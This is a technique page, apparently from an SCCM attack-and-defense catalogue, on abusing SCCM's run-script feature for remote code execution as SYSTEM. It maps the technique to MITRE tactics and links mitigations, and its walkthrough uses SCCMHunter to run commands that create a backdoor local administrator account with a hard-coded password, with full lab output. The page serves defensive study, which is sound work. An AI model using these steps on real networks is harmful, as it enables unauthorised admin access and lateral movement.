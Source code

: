 # EXEC-2

## Description
PowerShell script execution

## MITRE ATT&CK TTPs
- [TA0002](https://attack.mitre.org/tactics/TA0002) - Execution
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
Permitted security roles:
- Full Administrator
- Operations Administrator
- A [custom](https://learn.microsoft.com/en-us/mem/configmgr/apps/deploy-use/create-deploy-scripts#bkmk_ScriptRoles) role configured with Create, Modify, Read, Delete, Approve, and Run Script permissions

## Summary
SCCM allows administrators to create and execute custom scripts on a single device or collection of devices.

## Impact
An attacker could use this technique to execute arbitrary code/commands on a remote client device as `SYSTEM`.

## Defensive IDs
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples
1. Following hiearchy takeover, use `SCCMHunter` to access the admin service API and then identify and interact with a target device.

    ```
    () (C:\) >> get_device mp
    [13:58:34] INFO     ------------------------------------------
                        Active: 1
                        Client: 1
                        DistinguishedName: CN=MP,OU=SCCM_SiteSystems,DC=internal,DC=lab
                        FullDomainName: INTERNAL.LAB
                        IPAddresses: 10.10.100.13
                        LastLogonUserDomain: None
                        LastLogonUserName: None
                        Name: MP
                        OperatingSystemNameandVersion: Microsoft Windows NT Server 10.0
                        PrimaryGroupID: 515
                        ResourceId: 16777235
                        ResourceNames: mp.internal.lab
                        SID: S-1-5-21-4004054868-2969153893-1580793631-1106
                        SMSInstalledSites: LAB
                        SMSUniqueIdentifier: GUID:D78C19DA-D4ED-474F-88D4-1566B96F2732
                        ------------------------------------------
    () (C:\) >> interact 16777235
    (16777235) (C:\) >>
    ```

2. Create a script. For this example the below is used:

    ```
    net users
    net localgroup administrators
    net user sccm_script P@ssw0rd /add
    net localgroup administrators sccm_script /add
    net localgroup administrators
    ```

3. Execute the script with the `script` command

    ```
    (16777235) (C:\) >> script script.txt
    [14:06:21] INFO     [+] Updates script created successfully with GUID a0627fc9-6680-4850-8691-6b0d31ea0896.
    [14:06:24] INFO     [+] Script with guid a0627fc9-6680-4850-8691-6b0d31ea0896 approved.
    [14:06:26] INFO     [+] Script with guid a0627fc9-6680-4850-8691-6b0d31ea0896 executed.
    [14:06:43] INFO     [+] Got result:
    [14:06:43] INFO     User accounts for \\\\

                        -------------------------------------------------------------------------------
                        Administrator            DefaultAccount           Guest
                        WDAGUtilityAccount
                        The command completed with one or more errors.

                        Alias name     administrators
                        Comment        Administrators have complete and unrestricted access to the computer/domain

                        Members

                        -------------------------------------------------------------------------------
                        Administrator
                        LAB\\Domain Admins
                        LAB\\SCCM$
                        LAB\\SCCM_SiteServers
                        The command completed successfully.

                        The command completed successfully.

                        The command completed successfully.

                        Alias name     administrators
                        Comment        Administrators have complete and unrestricted access to the computer/domain

                        Members

                        -------------------------------------------------------------------------------
                        Administrator
                        LAB\\Domain Admins
                        LAB\\SCCM$
                        LAB\\SCCM_SiteServers
                        sccm_script
                        The command completed successfully.
    [14:06:45] INFO     [+] Script with GUID a0627fc9-6680-4850-8691-6b0d31ea0896 deleted.
    ```

## References
- Microsoft, [Create and run PowerShell scripts from the Configuration Manager console](https://learn.microsoft.com/en-us/mem/configmgr/apps/deploy-use/create-deploy-scripts)
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
